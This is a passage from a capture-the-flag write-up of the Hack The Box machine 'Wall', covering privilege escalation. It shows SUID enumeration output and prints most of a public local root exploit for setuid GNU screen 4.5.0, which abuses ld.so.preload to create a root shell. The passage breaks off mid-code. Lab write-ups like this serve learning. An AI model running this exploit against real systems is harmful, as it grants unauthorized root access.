 <h1>Root exploitation</h1>

<p>Unfortunately I was not able to retrieve the user flag as <code>www-data</code>. Popped over an enumeration script and started looking for pivot avenues. One particularly interesting result was <code>screen-4.5.0</code> which had suid set.</p>

{% highlight shell %}
...
[-] SUID files:
-rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
-rwsr-xr-x 1 root root 64424 Mar 10  2017 /bin/ping
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
...
{% endhighlight %}

<p>I poked around a bit to see if there were any low-hanging fruit for this privesc and sure enough managed to find a searchsploit exploit.</p>

<p align="center">
<img src="{{ '/assets/htb-wall/root-searchsploit.PNG' | relative_url }}">
</p>

{% highlight shell %}
cat 41154.sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 

echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);